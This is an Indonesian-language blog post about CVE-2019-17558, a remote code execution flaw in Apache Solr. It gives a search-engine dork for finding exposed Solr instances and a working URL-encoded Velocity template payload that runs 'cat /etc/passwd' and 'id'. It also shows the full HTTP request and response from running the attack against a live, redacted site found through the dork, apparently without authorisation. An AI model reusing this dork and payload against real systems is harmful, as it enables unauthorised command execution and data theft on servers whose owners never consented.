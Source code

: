 ```yaml
---
title: 'CVE-2019–17558: Apache Solr Vulnerable to Remote Code Execution (RCE)'
author: mrhidden
date: '2021-03-12T06:09:00.002-08:00'
categories: [Blogging, Exploit]
tags: [exploit]
---
```


Sudah lama ga nulis, kali ini saya share tentang CVE-2019-17558.  

Pada tanggal 29 Oktober, bukti konsep (PoC) untuk kerentanan Remote Code Execution (RCE) di Apache Solr, platform pencarian sumber terbuka [populer](https://cwiki.apache.org/confluence/display/solr/PublicServers) yang dibangun di atas [Apache Lucene](https://lucene.apache.org/) , [diterbitkan sebagai GitHub Gist](https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133) . Pada saat posting blog ini diterbitkan, kerentanan ini tidak memiliki pengenal CVE dan tidak ada konfirmasi atau indikasi solusi yang tersedia dari Apache. Namun, Apache baru-baru ini mengumumkan rilis Solr untuk mengatasi kerentanan ini, yang sekarang diidentifikasi sebagai [CVE-2019-17558](https://www.tenable.com/cve/CVE-2019-17558) . [Riset yang Dapat Dipertahankan](https://www.tenable.com/research)  mengonfirmasi bahwa Apache Solr versi 7.7.2 hingga 8.3 rentan pada saat entri blog ini pertama kali diterbitkan. Setelah [pengumuman](https://mail-archives.apache.org/mod_mbox/lucene-general/201912.mbox/raw/%3CCACOzrT1f0QN1nMewPsdeTcTy7-PS6DcqFhfrp4jcOjTugzTwWA%40mail.gmail.com%3E) dari Apache dirilis, kami sekarang dapat mengonfirmasi versi 5.0.0 hingga 8.3.1 terpengaruh.

Setelah saya baca-baca dan cari tahu mengenai CVE-2019-17558 saya menemukan report di [HackerOne](https://hackerone.com/reports/822002) , kemudian saya mencoba dorking.

**Dork:**
`inurl:/solr/select?q=`

Saya menemukan salah satu dari sekian banyaknya hasil dari dorking tadi
\
`https://redacted.vulnsite.com/servlets/solr/select?q=`

Kemudian saya mencoba memasukan payload seperti ini

**Payload**  

    1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27cat%20/etc/passwd%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end

**HTTP Request**  
```http
GET /servlets/solr/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: redacted.vulnsite.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: id,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=51AA2DB658C6083BC29720A0F2D2192E
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
**HTTP Response**  
```http
HTTP/1.1 200 200
Date: Fri, 12 Mar 2021 12:37:28 GMT
Server: Apache
Set-Cookie: JSESSIONID=B03BFDE69DACAC09D9B25D3F4347A306; Path=/; Secure; HttpOnly
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive, close
Content-Type: text/html;charset=UTF-8
Content-Length: 49

 0 uid=1288(solr4) gid=201(mcr) Gruppen=201(mcr)
```
  

![](https://1.bp.blogspot.com/-hcSrsQJRTQQ/YEt1oW5A9QI/AAAAAAAAA6s/7Q1TLHe24fYezIoKVw7NJAPYaoE1raHkQCPcBGAYYCw/s1365/CVE-2019%25E2%2580%259317558.png)

  

Oke sekian dulu.